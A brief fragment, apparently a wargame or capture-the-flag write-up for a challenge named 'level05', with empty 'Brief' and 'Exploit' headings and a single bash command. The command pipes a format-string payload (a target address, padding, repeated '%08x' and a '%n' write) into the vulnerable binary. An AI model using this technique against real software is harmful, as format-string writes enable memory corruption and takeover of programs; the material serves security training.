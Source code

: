## Brief

## Exploit

## Commands

```bash
(python -c "print('\xe0\x97\x04\x08' + 'A'*21 + '%08x'*9 + '%n')") | ./level05
```